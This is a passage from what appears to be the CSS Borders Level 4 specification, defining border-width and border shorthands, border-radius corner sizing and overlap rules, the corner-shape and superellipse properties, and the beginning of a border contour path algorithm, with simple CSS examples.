The flow-relative properties `border-block-start-width`, `border-block-end-width`, `border-inline-start-width`, and `border-inline-end-width` correspond to the physical properties `border-top-width`, `border-bottom-width`, `border-left-width`, and `border-right-width`. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **border-block-width**, **border-inline-width** |
| [Value:](#css-values-4:value-defs) | `<'border-top-width'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `border-block-start-width` & `border-block-end-width` and `border-inline-start-width` & `border-inline-end-width`, respectively. The first value represents the start side width, and the second value represents the end side width. If only one value is given, it applies to both the start and end sides.

| Field | Value |
| --- | --- |
| Name: | **border-width** |
| [Value:](#css-values-4:value-defs) | `<'border-top-width'>`{1,4} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

`border-width` is a shorthand property for the four physical `border-*-width` properties. The four values set the top, right, bottom and left border, respectively. A missing left is the same as right, a missing bottom is the same as top, and a missing right is also the same as top. This is resolved individually for each list item.

> **Note:** Although the initial width is `medium`, the initial style is `none`; therefore the used initial width is 0.

#### 2.4.  Border Shorthand Properties {#css-borders-4:border-shorthands}

| Field | Value |
| --- | --- |
| Name: | **border-top**, **border-right**, **border-bottom**, **border-left**, **border-block-start**, **border-block-end**, **border-inline-start**, **border-inline-end** |
| [Value:](#css-values-4:value-defs) | `<line-width>` \|\| `<line-style>` \|\| `<color>` |
| [Initial:](#css-cascade-6:initial-values) | See individual properties |
| [Applies to:](#css-cascade-5:applies-to) | all elements except ruby base containers and ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These shorthand properties set the `border-width`, `border-color`, and `border-style` of one side of the borders of a box. Omitted values are set to their initial values.

The flow-relative properties `border-block-start`, `border-block-end`, `border-inline-start`, and `border-inline-end` correspond to the physical properties `border-top`, `border-bottom`, `border-left`, and `border-right`. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **border-block**, **border-inline** |
| [Value:](#css-values-4:value-defs) | `<'border-block-start'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `border-block-start` & `border-block-end` or `border-inline-start` & `border-inline-end`, respectively, both to the same style.

| Field | Value |
| --- | --- |
| Name: | **border** |
| [Value:](#css-values-4:value-defs) | `<line-width>` \|\| `<line-style>` \|\| `<color>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `border` property is a shorthand property for setting the same `border-width`, `border-color`, and `border-style` for all four borders of a box. Unlike the shorthand `margin` and `padding` properties, the `border` property cannot set different values on the four borders. To do so, one or more of the other border properties must be used.

The `border` shorthand also resets `border-image` to its initial value. It is therefore recommended that authors use the `border` shorthand, rather than other shorthands or the individual properties, to override any border settings earlier in the cascade. This will ensure that `border-image` has also been reset to allow the new styles to take effect.

> **Note:** The CSS Working Group intends for the `border` shorthand to reset all border properties in future levels of CSS as well. For example, if a `border-characters` property is introduced in the future to allow glyphs as borders, it will also be reset by the `border` shorthand. By using the `border` shorthand to reset borders, authors can be guaranteed a “blank canvas” no matter what properties are introduced in the future.

> **Example:** For example, the first rule below is equivalent to the set of five rules shown after it:
>
> ```
> p { border: solid red }
> p {
>   border-top: solid red;
>   border-right: solid red;
>   border-bottom: solid red;
>   border-left: solid red;
>   border-image: none;
> }
> ```

Since, to some extent, the properties have overlapping functionality, the order in which the rules are specified is important.

> **Example:** Consider this example:
>
> ```
> blockquote {
>   border-color: red;
>   border-left: double;
>   color: black
> }
> ```
>
> In the above example, the color of the left border is black, while the other borders are red. This is due to `border-left` setting the width, style, and color. Since the color value is not given by the `border-left` property, it will be taken from the `color` property. The fact that the `color` property is set after the `border-left` property is not relevant.

### 3.  Corners {#css-borders-4:corners}

The padding edge (inner border) radius is the outer border radius minus the corresponding border thickness. In the case where this results in a negative value, the inner radius is zero. (In such cases the center of the border’s inner curve might not coincide with that of its outer curve.) Likewise the content edge radius is the padding edge radius minus the corresponding padding, or if that is negative, zero. The border and padding thicknesses in the curved region are thus interpolated from the adjoining sides, and when two adjoining borders are of different thicknesses the corner will show a smooth transition between the thicker and thinner borders.

All border styles (`solid`, `dotted`, `inset`, etc.) follow the curve of the border.


The effect of a rounded corner when the two borders it connects are of unequal thickness (left) and the effect of a rounded corner on borders that are thicker than the radius of the corner (right).

> **Note:** If the center of a corner’s outer curve is past an opposite padding edge (in the border area of a side opposite the corner), the inner curve will not be a full quarter ellipse.

| p { width: 70px; height: 70px; border: solid 30px; border-color: orange orange silver silver; border-top-right-radius: 100%; } |  |
| --- | --- |

Where the border-radius curve extends into the opposite sides' borders, the arc of the padding edge is less than 90°.

The margin edge, being outside the border edge, calculates its radius by *adding* the corresponding margin thickness to each border radius, with the corresponding outset-adjusted border radius applied.

When expanding an edge that has a border radius, e.g. for computing the margin edge, `box-shadow` spread, or `overflow-clip-margin`, the different border radius values are adjusted so that a small rounded corner with a big outset does not appear to be disproportionally round.

This is done by computing the corresponding outset-adjusted border radius.

To compute the **outset-adjusted border radius** given the 2-dimensional size’s *edge*, *radius*, and *outset*:

1. Let *coverage* be `2 * min(radius’s width / edge’s width, radius’s height / edge’s height)`.
2. Let *adjustedRadiusWidth* be the adjusted radius dimension given *coverage*, *radius*’s width, and *outset*’s width.
3. Let *adjustedRadiusHeight* be the adjusted radius dimension given *coverage*, *radius*’s height, and *outset*’s height.
4. Return (*adjustedRadiusWidth*, *adjustedRadiusHeight*).

To compute the **adjusted radius dimension** given numbers *coverage*, *radius*, and *outset*:

1. If *radius* is greater than *outset*, or if *coverage* is greater than 1, then return `radius + outset`.
2. Let *ratio* be `radius / outset`.
3. Return `radius + outset * (1 - (1 - ratio)3 * (1 - coverage3))`.

> **Note:** this algorithm is designed to reduce the effect of the *outset* (or spread) on the shape of the corner. The *coverage* factor makes this reduction more pronounced for rectangular shapes (where the border radius is close to 0), and less pronounced for elliptical shapes (where the border radius is close to 50%).

#### 3.1.  Corner Clipping {#css-borders-4:corner-clipping}

Although [border images](#css-borders-4:border-image) are not affected by `border-radius`, other effects that clip painting or event handling to the border, padding, or content edge must clip to their respective curves. For example, backgrounds clip to the curve specified by `background-clip`, `overflow` values other than `visible` to the curved padding edge (when `overflow` on both axes is not `visible`), replaced element content to the curved content edge, pointer events to the curved border edge, etc.

> **Note:** As `border-radius` reduces the interactive area of an element authors should make sure the remaining interactive area conforms to recommended minima for the platforms they target; in particular, conforming to recommended minimum touch target sizes may require larger widths and heights when `border-radius` is used.

> **Example:** This example adds appropriate padding, so that the contents do not overflow the corners. Note that there is no border, but the background will still have rounded corners.
>
> ```
> DIV {
>     background: black;
>     color: white;
>     border-radius: 1em;
>     padding: 1em }
> ```

#### 3.2.  Color and Style Transitions {#css-borders-4:corner-transitions}

Color and style transitions must be contained within the segment of the border that intersects the smallest rectangle that contains both border radii as well as the center of the inner curve (which may be a point representing the corner of the padding edge, if the border radii are smaller than the border width).

If one of these borders is zero-width, then the other border takes up the entire transitional area. Otherwise, the center of color and style transitions between adjoining borders is a point along the curve that is a continuous monotonic function of the ratio of the border widths. However it is not defined what these transitions look like or what function maps from this ratio to a point on the curve.


Given these corner shapes, color and style transitions must be contained within the green region. In case D the rectangle defined by the border radii does not include the center of the inner curve (which is a sharp corner), so the transition region is expanded to include that corner. Transitions may take up the entire transition region, but are not required to: For example, a gradient color transition between two solid border styles might take up only the region bounded by the tips of the outer radii and the tips of the inner radii (represented in case D by the dark green region).

#### 3.3.  Overlapping Curves {#css-borders-4:corner-overlap}

Corner curves must not overlap: When the sum of any two adjacent border radii exceeds the size of the border box, UAs must proportionally reduce the used values of all border radii until none of them overlap. The algorithm for reducing radii is as follows:

Let *f* = min(1, *Li* / *Si*), where *i* ∈ {top, right, bottom, left}, *Si* is the sum of the two corresponding radii of the corners on side *i*, and *Ltop* = *Lbottom* = the width of the box, and *Lleft* = *Lright* = the height of the box. If *f* < 1, then all corner radii are reduced by multiplying them by *f*. The value of *f* is the **adjacent corner scale factor**.

> **Note:** This formula ensures that quarter circles remain quarter circles and large radii remain larger than smaller ones, but it may reduce corners that were already small enough, which may make borders of nearby elements that should look the same look different.

If the curve interferes with UI elements such as scrollbars, the UA may further reduce the used value of the affected border radii (and only the affected border radii) as much as necessary, but no more.

> **Example:** For example, the borders A of the [figure below](#css-borders-4:reduced-radius) might be the result of
>
> ```
> box-sizing: border-box;
> width: 6em;
> height: 2.5em;
> border-radius: 0.5em 2em 0.5em 2em
> ```
>
> The height (2.5em) is enough for the specified radii (0.5em plus 2.0em). However, if the height is only 2em,
>
> ```
> box-sizing: border-box;
> width: 6em;
> height: 2em;
> border-radius: 0.5em 2em 0.5em 2em
> ```
>
> all corners need to be reduced by a factor 0.8 to make them fit. The used border radii thus are 0.4em (instead of 0.5em) and 1.6em (instead of 2em). See borders B in the figure.
>
> 
>
> These rounded corner might be the result of `width: 6em; height: 2.5em; border-radius: 0.5em 2em 0.5em 2em` for A; and ditto but with `height: 2em` for B.

#### 3.4.  Effect on Tables {#css-borders-4:border-radius-tables}

The `border-radius` properties do apply to `table`, `inline-table`, and `table-cell` boxes in separated borders mode (`border-collapse: separate`). When `border-collapse` is collapse, they have no effect.

#### 3.5.  Corner Sizing: the `border-*-*-radius` properties {#css-borders-4:border-radius}

| Field | Value |
| --- | --- |
| Name: | **border-top-left-radius**, **border-top-right-radius**, **border-bottom-right-radius**, **border-bottom-left-radius**, **border-start-start-radius**, **border-start-end-radius**, **border-end-start-radius**, **border-end-end-radius** |
| [Value:](#css-values-4:value-defs) | `<border-radius>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements (but see prose) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Refer to corresponding dimension of the border box. |
| [Computed value:](#css-cascade-6:computed) | pair of computed `<length-percentage>` values |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| [Logical property group:](#css-logical-1:logical-property-group) | `border-radius` |

The radius is specified as a `<border-radius>` value, where

```css
<border-radius> = <slash-separated-border-radius-syntax> | <legacy-border-radius-syntax>
<slash-separated-border-radius-syntax> = <length-percentage [0,∞]> [ / <length-percentage [0,∞]> ]?
<legacy-border-radius-syntax> = <length-percentage [0,∞]>{1,2}
```

The two `<length-percentage>` values of the `border-*-radius` properties define the **radii** of a quarter ellipse that defines the shape of the corner of the outer border edge (see the diagram below). The first value is the horizontal radius, the second the vertical radius. If the second value is omitted it is copied from the first. If either length is zero, the corner is square, not rounded. Percentages for the horizontal radius refer to the width of the border box, whereas percentages for the vertical radius refer to the height of the border box. Negative values are invalid.

> **Note:** Authors *should* use the slash syntax, which is preferred for new content, but the legacy syntax (two values separated by whitespace) is supported for backwards compatibility.


The two values of `border-top-left-radius: 55pt 25pt` define the size of the corner.

> **Example:** This example draws ovals of 15em wide and 10em high:
>
> ```
> DIV.standout {
>     width: 13em;
>     height: 8em;
>     border: solid black 1em;
>     border-radius: 7.5em 5em }
> ```

The flow-relative properties `border-start-start-radius`, `border-start-end-radius`, `border-end-start-radius`, and `border-end-end-radius` correspond to the physical properties `border-top-left-radius`, `border-bottom-left-radius`, `border-top-right-radius`, and `border-bottom-right-radius`. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`, with the first start/end giving the block axis side, and the second the inline-axis side (i.e. patterned as 'border-*block*-*inline*-radius').

#### 3.6.  Corner Sizing Shorthands: the `border-radius` and `border-*-radius` shorthand properties {#css-borders-4:corner-sizing}

##### 3.6.1.  Sizing The Corners Of One Side: The `border-top-radius`, `border-right-radius`, `border-bottom-radius`, `border-left-radius`, `border-block-start-radius`, `border-block-end-radius`, `border-inline-start-radius`, `border-inline-end-radius` shorthands {#css-borders-4:corner-sizing-side-shorthands}

| Field | Value |
| --- | --- |
| Name: | **border-top-radius**, **border-right-radius**, **border-bottom-radius**, **border-left-radius**, **border-block-start-radius**, **border-block-end-radius**, **border-inline-start-radius**, **border-inline-end-radius** |
| [Value:](#css-values-4:value-defs) | `<length-percentage [0,∞]>`{1,2} [ / <length-percentage [0,∞]>{1,2} ]? |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements (but see prose) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Refer to corresponding dimension of the border box. |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `border-*-radius` shorthands set the two `border-*-*-radius` longhand properties of the related side. If values are given before and after the slash, then the values before the slash set the horizontal radius and the values after the slash set the vertical radius. If there is no slash, then the values set both radii equally. The two values for the radii are given in the order top-left, top-right for `border-top-radius`, top-right, bottom-right for `border-right-radius`, bottom-left, bottom-right for `border-bottom-radius`, top-left, bottom-left for `border-left-radius`, start-start, start-end for `border-block-start-radius`, end-start, end-end for `border-block-end-radius` start-start, end-start for `border-inline-start-radius`, and start-end, end-end for `border-inline-end-radius`. If the second value is omitted it is copied from the first.

##### 3.6.2.  Sizing All Corners At Once: The `border-radius` shorthand {#css-borders-4:corner-sizing-shorthand}

| Field | Value |
| --- | --- |
| Name: | **border-radius** |
| [Value:](#css-values-4:value-defs) | `<length-percentage [0,∞]>`{1,4} [ / <length-percentage [0,∞]>{1,4} ]? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `border-radius` shorthand sets all four `border-*-radius` properties. If values are given before and after the slash, then the values before the slash set the horizontal radii and the values after the slash set the vertical radii. If there is no slash, then the values set the radii in both axes equally. The four values for each radii are given in the order top-left, top-right, bottom-right, bottom-left. If bottom-left is omitted it is the same as top-right. If bottom-right is omitted it is the same as top-left. If top-right is omitted it is the same as top-left.

> **Example:** ```
> border-radius: 4em;
> ```
>
> is equivalent to
>
> ```
> border-top-left-radius:     4em;
> border-top-right-radius:    4em;
> border-bottom-right-radius: 4em;
> border-bottom-left-radius:  4em;
> ```
>
> and
>
> ```
> border-radius: 2em 1em 4em / 0.5em 3em;
> ```
>
> is equivalent to
>
> ```
> border-top-left-radius:     2em 0.5em;
> border-top-right-radius:    1em 3em;
> border-bottom-right-radius: 4em 0.5em;
> border-bottom-left-radius:  1em 3em;
> ```

#### 3.7.  Corner Shaping: the `corner-*-shape` properties {#css-borders-4:corner-shaping}

By default, non-zero `border-radius` values define a quarter-ellipse **corner shape** that rounds the affected corners, filling the **corner area** defined by the `border-radius` for that corner. However in some cases, other corner shapes are desired. The `corner-*-shape` properties (and their shorthands) specify exactly what corner shapes a box will use for the region defined by its `border-*-radius` values.

The different corner shapes can all be expressed as different parameters to a *superellipse*. A superellipse is a generalization of an ellipse, and based on its `k` parameter can express all the shapes between a square, an ellipse, and a notch.

> **Note:** How does a superellipse work?
>
> A unit circle is defined by the equation:
>
> x 2  +  y 2  = 1
>
> The circle is made from all points (x,y) that satisfy the equation. A given ellipse can then be produced by scaling this shape in the X and/or Y axis.
>
> The unit superellipse equation just changes the 2 exponent into a variable. For this spec’s purposes, we’ll write it as 2K:
>
> x  2 K   +  y  2 K   = 1
>
> The *K* in this equation is the `superellipse()` argument.
>
> *K* can be any value; setting *K* to 1 gives the standard circle/ellipse equation, but other values define the entire family of superellipse curves:
>
> - Values larger than 1 make it more "square": the traditional "squircle" uses a *K* of 2, and a *K* of infinity is a perfect square. (A *K* of only 10 is already nearly indistinguishable from a square; it scales very quickly.)
> - Values between 0 and 1 make it "flatter"; when *K* is 0 it’s a diamond with perfectly flat sides.
> - Negative values define concave curves, exact opposite of what you get with positive values: a *K* of -1 gives an elliptical "scoop" that’s the opposite of a *K* of 1, a *K* of -2 gives a "squircle" scoop, a *K* of negative infinity gives a square scoop, etc.
>
> (Note that most literature on superellipses will write the equation with a simpler xn exponent. The x2K form was chosen here to make the argument ranges easier to reason about: all possible values are valid, the symmetrical shapes are just positive/negative, the "middle" bevel is 0, etc.)

To allow full expression as well as interpolation, the `corner-shape` properties can provide the superellipse parameter directly using the `superellipse()` function, or use one of the supplied keywords which represent commonly used parameters. See the `<corner-shape-value>` definition for details.

| Field | Value |
| --- | --- |
| Name: | **corner-top-left-shape**, **corner-top-right-shape**, **corner-bottom-right-shape**, **corner-bottom-left-shape**, **corner-start-start-shape**, **corner-start-end-shape**, **corner-end-start-shape**, **corner-end-end-shape** |
| [Value:](#css-values-4:value-defs) | `<corner-shape-value>` |
| [Initial:](#css-cascade-6:initial-values) | round |
| [Applies to:](#css-cascade-5:applies-to) | all elements where `border-radius` can apply |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the corresponding `superellipse()` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see superellipse interpolation |
| [Logical property group:](#css-logical-1:logical-property-group) | `corner-shape` |

The `corner-*-*-shape` longhand properties set the corner shape for the given corner.

The flow-relative longhands (`corner-start-start-shape`, etc.) correspond to the physical longhands (`corner-top-left-shape`, etc.) depending on the element’s `writing-mode`, `direction`, and `text-orientation`. The first `start`/`end` gives the block axis side, and the second the inline-axis side (i.e. patterned as `corner-block-inline-shape`).

```css
<corner-shape-value> = round | scoop | bevel | notch | square | squircle |
                       <superellipse()>
superellipse() = superellipse(<number> | infinity | -infinity)
```

****round****

: The corner shape is a quarter of a convex ellipse. Equivalent to `superellipse(1)`.

  > **Note:** This is the initial value of `corner-shape` properties, as it was the behavior of `border-radius` before `corner-shape` existed.

****squircle****

: The corner shape is a quarter of a "squircle", a convex curve between `round` and `square`. Equivalent to `superellipse(2)`.

****square****

: The corner shape is a convex 90deg angle. Equivalent to `superellipse(infinity)`.

  > **Note:** This looks identical to the "normal" square corner you get from `border-radius: 0`, but it can smoothly animate with the other `corner-shape` values.

****bevel****

: The corner shape is a straight diagonal line, neither convex nor concave. Equivalent to `superellipse(0)`.

****scoop****

: The corner shape is a concave quarter-ellipse. Equivalent to `superellipse(-1)`.

****notch****

: The corner shape is a concave 90deg angle. Equivalent to `superellipse(-infinity)`.

****superellipse(K)****

: The corner shape is a quarter of a superellipse. The argument *K* is the **superellipse parameter**, and it defines a superellipse using an exponent of 2K.

  See the note in [§ 3.7 Corner Shaping: the corner-*-shape properties](#css-borders-4:corner-shaping) for an explanation of the mathematical definition of a superellipse, and what various K values mean. See [§ 3.9.4 Rendering corner-shape](#css-borders-4:corner-shape-rendering) for precise details of how the superellipse is computed and rendered.

> **Example:** 
>
> Different `superellipse()` values for the top right corner: infinity, 1, 0, -1, and -infinity.

> **Note:** If `border-radius` is not specified (or is set to 0), the corner area is zero-sized as well, and `corner-shape` won’t have any effect.

`corner-*-shape` does not alter the overflow rules for `border-*-radius`, except insofar as it shapes the corners differently; elements are still clipped by the shaped border as normal.

The curve specified by `corner-*-shape` defines the *outer* edge of the border. The inner edge of the border follows the curve of the outer edge (in a way that’s not necessarily expressible as a superellipse curve), with a nearly consistent distance from the outer edge throughout, (or a linearly increasing distance if the `border-width` of the two border edges meeting at the the corner are not uniform).

`corner-*-shape` also affects the rendering of `box-shadow`, and how the overflow clip edge is shaped when it’s extended from the box, but these do not directly follow the `corner-*-shape` path like the inner border edge does. Instead, it scales the `corner-shape` path in an axis-aligned manner.

#### 3.8.  Corner Shaping Shorthands: the `corner-shape` and `corner-*-shape` shorthand properties {#css-borders-4:corner-shaping-shorthands}

##### 3.8.1.  Shaping The Corners Of One Side: The `corner-*-shape` shorthands: {#css-borders-4:corner-shaping-side-shorthands}

| Field | Value |
| --- | --- |
| Name: | **corner-top-shape**, **corner-right-shape**, **corner-bottom-shape**, **corner-left-shape**, **corner-block-start-shape**, **corner-block-end-shape**, **corner-inline-start-shape**, **corner-inline-end-shape** |
| [Value:](#css-values-4:value-defs) | `<'corner-top-left-shape'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `corner-*-shape` shorthands set the two `corner-*-*-shape` properties of the related side. If only one value is given, the second value defaults to the same value.

For the physical shorthands (`corner-top-shape`, etc.), the values are either in left/right order, or top/bottom order, whichever axis is meaningful for the property. That is, `corner-top-shape: round square` sets `corner-top-left-shape: round; corner-top-right-shape: square;`.

For the logical shorthands (`corner-block-start-shape`, etc.), the values are always in start/end order in the other axis. That is, `corner-block-start-shape: round square` sets `corner-start-start-shape: round; corner-start-end-shape: square;`.

##### 3.8.2.  Shaping All Corners At Once: The `corner-shape` shorthand {#css-borders-4:corner-shaping-shorthand}

| Field | Value |
| --- | --- |
| Name: | **corner-shape** |
| [Value:](#css-values-4:value-defs) | `<'corner-top-left-shape'>`{1,4} |
| [Initial:](#css-cascade-6:initial-values) | round |
| [Applies to:](#css-cascade-5:applies-to) | all elements where `border-radius` can apply |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `corner-shape` property specifies the shape of the box’s corners, within the region specified by `border-radius`. The four values set the top, right, bottom and left shape, respectively. A missing left is the same as right, a missing bottom is the same as top, and a missing right is also the same as top.

#### 3.9.  Corner Sizing & Shaping Shorthands: the `corner` and `corner-*` shorthand properties {#css-borders-4:corner-shorthands}

##### 3.9.1.  Sizing & shaping a corner: The `corner-top-left`, `corner-top-right`, `corner-bottom-right`, `corner-bottom-left`, `corner-start-start`, `corner-start-end`, `corner-end-start`, `corner-end-end` shorthands {#css-borders-4:single-corner-shorthands}

| Field | Value |
| --- | --- |
| Name: | **corner-top-left**, **corner-top-right**, **corner-bottom-left**, **corner-bottom-right**, **corner-start-start**, **corner-start-end**, **corner-end-start**, **corner-end-end** |
| [Value:](#css-values-4:value-defs) | `<'corner-top-left-shape'>` \|\| `<'border-top-left-radius'>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements (but see prose) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Refer to corresponding dimension of the border box. |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |

The `corner-*-*` shorthands set the two `corner-*-*-shape` and `border-*-*-radius` longhand properties of the related side. See the corresponding `corner-*-*-shape` and `border-*-*-radius` properties for further details.

##### 3.9.2.  Sizing & shaping rhe Corners Of One Side: The `corner-top`, `corner-right`, `corner-bottom`, `corner-left`, `corner-block-start`, `corner-block-end`, `corner-inline-start`, `corner-inline-end` shorthands {#css-borders-4:corner-side-shorthands}

| Field | Value |
| --- | --- |
| Name: | **corner-top**, **corner-right**, **corner-bottom**, **corner-left**, **corner-block-start**, **corner-block-end**, **corner-inline-start**, **corner-inline-end** |
| [Value:](#css-values-4:value-defs) | `<'corner-top-shape'>` \|\| `<'border-top-radius'>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements (but see prose) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Refer to corresponding dimension of the border box. |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `corner-*` shorthands set the two `corner-*-shape` longhand properties and two `border-*-radius` longhand properties of the related side. See the corresponding `corner-*-shape` and `border-*-radius` properties for further details.

##### 3.9.3.  Sizing & Shaping All Corners At Once: The `corner` shorthand {#css-borders-4:corner-shorthand}

| Field | Value |
| --- | --- |
| Name: | **corner** |
| [Value:](#css-values-4:value-defs) | `<'corner-shape'>` \|\| `<'border-radius'>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements (but see prose) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Refer to corresponding dimension of the border box. |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |

The `corner` shorthand sets the `corner-*-shape` and `border-*-radius` longhands all together.

##### 3.9.4.  Rendering `corner-shape` {#css-borders-4:corner-shape-rendering}

When rendering elements with shaped corners, the corner curves for `border`, `outline`, `box-shadow`, `overflow-clip-margin`, etc. are offset from the element’s outer contour by their respective insets.

An element’s **outer contour** is the border contour path given *element* and an edge whose values are zero.

An element’s **inner contour** is the border contour path given *element* and an edge whose values are the used border width.

An element’s border is rendered in the area between its outer contour and its inner contour.

An element’s outline follows the outer contour with the used `outline-width` and `outline-offset`. The precise way in which it is rendered is implementation-defined.

An element’s overflow area is shaped by its inner contour.

An element’s overflow clip edge is shaped by the border contour path given *element*, and the inset between *element*’s border edge and overflow clip edge.

Each shadow of element’s `box-shadow` is shaped by the border contour path given *element*, and the inset between *element*’s border edge and shadow’s edge.

The **inset between two edges**, given edges *originalEdge* and *targetEdge*, is an edge whose values are the signed insets from *originalEdge* to *targetEdge*, positive inward and negative outward.

###### 3.9.4.1. Vector Math Helpers {#css-borders-4:vector-math-helpers}

A **two-dimensional vector** is a pair of numbers (x, y).

A **point extended by vectors** given a `DOMPointReadOnly` *p* and a list of two-dimensional vectors *vectors*:

1. Let *x* be *p*’s `x`.
2. Let *y* be *p*’s `y`.
3. For each *v* in *vectors*:

  1. Increment *x* by *v*[0];
  2. Increment *y* by *v*[1];
4. Return a new `DOMPointReadOnly` whose `x` is *x* and whose `y` is *y*.

To **scale** a two-dimensional vector *v* by a number *factor*, return `(v[0] ⋅ factor, v[1] ⋅ factor)`.

To **normalize** a two-dimensional vector *v*:

1. Let *l* be `hypot(v[0], v[1])`.
2. If *l* is 0, return *v*.
3. Return `(v[0] / l, v[1] / l)`.

The **perpendicular** of a two-dimensional vector *v* is `(-v[1], v[0])`.

The **vector between two points**, given `DOMPoint`s *a* and *b*, is `(b’s x - a’s x, b’s y - a’s y)`.

To **sum** a list of two-dimensional vectors *vectors*:

1. Let *x* be `0`.
2. Let *y* be `0`.
3. For each *v* in *vectors*:

  1. Increment *x* by *v*[0];
  2. Increment *y* by *v*[1];
4. Return `(x, y)`.

The **dot product** of two-dimensional vectors *a* and *b*, is `a[0] ⋅ b[0] + a[1] ⋅ b[1]`.

###### 3.9.4.2. Computing a contoured path {#css-borders-4:contour-path}

This algorithm describes how to compute a path with shaped corners. To avoid the complexities of defining how superellipses intersect, the algorithm simplifies the process by specifying that each corner is "clipped out" of the path. The specific implementation details of this clipping operation are left to implementations.

To compute the **border contour path** given an element *element*, and numbers *topInset*, *rightInset*, *bottomInset*, *leftInset* (or an edge whose top, right, bottom, and left values are those numbers):

1. Let *borderRect* be *element*’s border box.
2. Let *targetRect* be *borderRect*, inset by *topInset*, *rightInset*, *bottomInset*, *leftInset*.

   > **Note:** If this is a shadow, `overflow-clip-margin`, or a margin box, the insets may have negative values, in which case *targetRect* would become an outset of *borderRect*.
3. Let *path* be a path that traces *targetRect*.
4. Let *topRightRadius* be *element*’s used value of `border-top-right-radius`.
